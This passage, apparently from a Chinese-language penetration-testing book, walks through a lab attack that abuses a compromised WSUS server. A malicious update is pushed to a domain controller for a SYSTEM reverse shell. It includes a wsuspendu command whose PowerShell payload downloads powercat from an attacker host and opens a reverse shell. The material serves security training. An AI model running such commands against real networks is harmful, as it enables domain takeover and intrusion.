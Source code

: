 到目前为止描述的所有攻击的主要结论是，确保 WSUS 更新仅通过安全的 HTTPS 传输进行。

我们的攻击范围内的最后一个攻击是如果攻击者已入侵 WSUS 服务器本身，则向客户端分发恶意更新。为此，我们将在`castelrock.sevenkingdoms.local`上部署 WSUS，并在`kingslanding.sevenkingdoms.local`上安装恶意更新，获得反向 Shell。我们需要根据 Microsoft 提供的指南[5]在实验室中部署 WSUS。

角色安装很简单。接下来的步骤是服务配置。我们将取消选中所有操作系统版本和软件的更新目标列表，因为我们不希望 WSUS 从互联网上拉取更新。最后，我们需要配置组策略，使**域控制器`(`DC**)从 WSUS 拉取更新[6]。值得一提的是，在组策略参数中，我们必须使用**完全限定域名`(`FQDN**)和端口号来指定 WSUS 服务器。

为了攻陷 DC，我们可以利用`SharpWSUS`[7]或`wsuspendu`[8]工具。计划是将反向 Shell 脚本托管在我们的 Web 服务器上，并使用`PsExec`[9]作为有效载荷下载并执行它（因为它由 Microsoft 签名）。

```
.\wsuspendu.ps1 -Inject -PayloadFile .\ps64.exe -PayloadArgs 'powershell -c "IEX(New-Object System.Net.WebClient).DownloadString(''http://192.168.56.150:8000/powercat.ps1'');powercat -c 192.168.56.150 -p 443 -e cmd"'
Get-WsusUpdate -Approval Unapproved |Approve-WsusUpdate -Action Install -TargetGroupName "DC"
```

然后，更新被安装到 DC 上，我们获得了作为`SYSTEM`的反向 Shell：

![图 10.1 – 作为 SYSTEM 在 DC 上的反向 shell](img/B18964_10_01.jpg)

图 10.1 – 作为 SYSTEM 在 DC 上的反向 shell

在本节中，我们讨论了 WSUS 最常见的攻陷路径，如中间人攻击（MitM）、缺失的补丁和 NTLM 中继攻击。我们还演示了如何利用被攻陷的 WSUS 进行横向移动，实际上使攻击者有可能完全接管基础设施。
